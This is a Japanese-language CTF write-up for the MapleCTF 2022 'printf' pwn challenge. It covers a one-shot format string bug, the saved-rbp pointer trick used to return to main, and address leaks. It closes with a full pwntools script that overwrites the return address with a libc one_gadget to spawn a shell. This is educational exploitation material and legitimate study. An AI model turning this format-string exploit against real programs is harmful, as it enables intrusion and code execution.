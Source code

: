 # MapleCTF 2022 `printf [pwn]` writeup

## 問題
Just one printf call. Please send me interesting solutions!

`nc printf.ctf.maplebacon.org 1337`

実行ファイルが配布される。

## 解法
セキュリティ機構の確認。

```
[*] '/home/caffeine/ctf/maplectf22/pwn/printf/chal'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

canaryはないが、BOFのバグはなかった。

代わりにあるのはFormat string bugs (FSB)。
但し入力、出力ともに1度きり。
FSBのあるprintf関数はmain() -> ready() -> set() -> go()といくつかの関数を潜った先にある。
printf関数が呼び出される直前のスタックの状態は以下の通り (本来はASLRが有効なのでスタックのアドレスはランダム)。

```
00:0000│ rbp rsp 0x7fffffffdef0 —▸ 0x7fffffffdf00 —▸ 0x7fffffffdf10 —▸ 0x7fffffffdf20 ◂— 0x0
01:0008│         0x7fffffffdef8 —▸ 0x5555555551f2 (set+18) ◂— nop
02:0010│         0x7fffffffdf00 —▸ 0x7fffffffdf10 —▸ 0x7fffffffdf20 ◂— 0x0
03:0018│         0x7fffffffdf08 —▸ 0x555555555207 (ready+18) ◂— nop
04:0020│         0x7fffffffdf10 —▸ 0x7fffffffdf20 ◂— 0x0
05:0028│         0x7fffffffdf18 —▸ 0x55555555524e (main+68) ◂— mov    eax, 0
06:0030│         0x7fffffffdf20 ◂— 0x0
07:0038│         0x7fffffffdf28 —▸ 0x7ffff7dea083 (__libc_start_main+243) ◂— mov    edi, eax
```

保存されたrbpがリストになっているので、以下の手順でFormat string attack (FSA)によるアドレスリーク及びret2mainを狙う。

1. スタックの0番目 (つまりスタックのトップ)のアドレスを参照して、`\xX8`を書き込む。
   + 上の例だと、スタックの2番目のアドレスが`0x7fffffffdfX8`になる。
2. スタックの2番目のアドレスを参照して、`\x49`を書き込む。
   + ここで`0x7fffffffdfX8`が`0x7fffffffdf08`もしくは`0x7fffffffdf18`と一致すると、リターンアドレスが書き変わってmain()からもう一度ready()が呼ばれる。成功確率は1/8。
3. スタック上の適当なアドレスを拾ってきて、libcやスタックのアドレスをリークしておく。

これが成功すれば、絶対アドレスを把握したうえでFSAによる任意アドレス書き込みができる状態になる。
シェルを取るのは容易だ。

## Exploit
FSAを利用して予めlibcのアドレスをいくつかリークし、そのオフセットからlibcのバージョンに目星を付けておく。
今回はリターンアドレスをlibc上のone gadgetに書き換えてシェルを取った。
FSAでは大きな値の書き込みに時間がかかるので、1 or 2 Bずつ書き込むのが吉。
```py
from pwn import *
import sys

elf = ELF("chal")
libc = ELF("/usr/lib/x86_64-linux-gnu/libc-2.31.so")

# io = process(elf.path)
io = remote("printf.ctf.maplebacon.org", 1337)

# gdb.attach(io)

one_gadget1 = 0xe3afe
one_gadget2 = 0xe3b01
one_gadget3 = 0xe3b04

payload = b"%c" * 4
payload += b"%52c"
payload += b"%hhn"
payload += b"%17c"
payload += b"%8$hhn"
payload += b"%11$p"
payload += b"AAAA"
payload += b"%13$p"
payload += b"AAAA"
io.sendline(payload)

ret = io.recvuntil(b"AAAA")
elf.address = int(ret[-16:-4].decode(), 16) - 68 - elf.sym["main"]
ret = io.recvuntil(b"AAAA")
libc.address = int(ret[-16:-4].decode(), 16) - 243 - libc.sym["__libc_start_main"]
print("elf addr: " + str(hex(elf.address)))
print("libc addr: " + str(hex(libc.address)))

b = (((libc.address + one_gadget2) >> 16) & 0xff) - 90
payload =  b"%c" * 4
payload += b"%86c"
payload += b"%hhn"
payload += b"%%%dc%%hhn" % b
b = ((elf.sym["main"] + 63) & 0xffff) - b - 90
payload += b"%%%dc%%hn" % b
io.sendline(payload)

b = ((libc.address + one_gadget2) & 0xffff) - 88
payload =  b"%c" * 4
payload += b"%84c"
payload += b"%hhn"
payload += b"%%%dc%%hn" % b
io.sendline(payload)

io.interactive()
```

FLAG: `maple{F0wm47_57w1ng_3xpl01t_UwU}`